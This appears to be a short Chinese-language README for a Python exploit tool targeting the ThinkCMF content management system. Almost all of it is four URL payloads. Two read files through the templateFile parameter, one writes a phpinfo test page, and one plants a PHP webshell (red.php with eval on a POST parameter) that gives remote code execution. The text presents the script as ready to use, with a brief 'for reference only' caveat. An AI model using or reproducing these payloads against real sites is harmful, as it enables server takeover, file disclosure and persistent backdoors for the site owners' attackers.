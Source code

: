 # 一个简单python3的thinkcmf-exp
探测以下4个payload:


```url
?a=display&templateFile=README.md
```



```url
?a=display&templateFile=config.yaml
```



```url
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo();?>')</php>
```



```url
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('red.php','by:zjun <?php eval($_POST["red"]);?>')</php>
```


此脚本只用了requests和argparse库完成,因此可以即下即用.

该脚本具有一定误差,请谨慎使用,仅供参考!

详见:[zjun's blog](http://www.zjun.info/2020/02/10/thinkcmfexp/)
